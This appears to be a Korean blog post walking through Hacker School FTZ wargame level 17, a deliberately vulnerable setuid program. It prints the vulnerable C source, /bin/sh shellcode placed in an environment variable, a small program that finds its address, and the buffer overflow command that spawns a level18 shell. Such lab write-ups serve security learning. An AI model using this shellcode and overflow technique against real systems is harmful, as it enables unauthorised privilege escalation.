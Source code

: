 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 17"
description: "Do you know how to call the function (2)?"
comments: true
categories: FTZ
---
```


<img data-action="zoom" src='{{ "assets/ftz/level17/1.jpg" | relative_url }}' alt='relative'>  

## 1) level17/king poetic 입력해 로그인  

``` c
#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}
```

<img data-action="zoom" src='{{ "assets/ftz/level17/2.png" | relative_url }}' alt='relative'>  

소스코드를 보면 앞선 16번 문제처럼 풀되 shell 함수의 주소 대신 shellcode가 저장된 주소를 call 함수에 대입하면 될 것으로 예상됩니다.  

<img data-action="zoom" src='{{ "assets/ftz/level17/3.png" | relative_url }}' alt='relative'>  

스택의 구조도 16번 문제와 비슷합니다.  

## 2) 환경변수에 shellcode 저장하고 shellcode가 저장된 환경변수의 주소 얻기  

``` bash
export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

cd tmp

echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c

gcc -o getenv getenv.c

./getenv
```

<img data-action="zoom" src='{{ "assets/ftz/level17/4.png" | relative_url }}' alt='relative'>  

## 3) bof 일으키기  

``` bash
(python -c 'print "A"*40+"\x8d\xfc\xff\xbf"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level17/5.png" | relative_url }}' alt='relative'>  

getenv 프로그램을 실행시켜 얻은 주소로 bof 공격을 수행하니 level18 권한으로 shell을 실행시킬 수 있었고 level18의 비밀번호를 획득할 수 있었습니다.  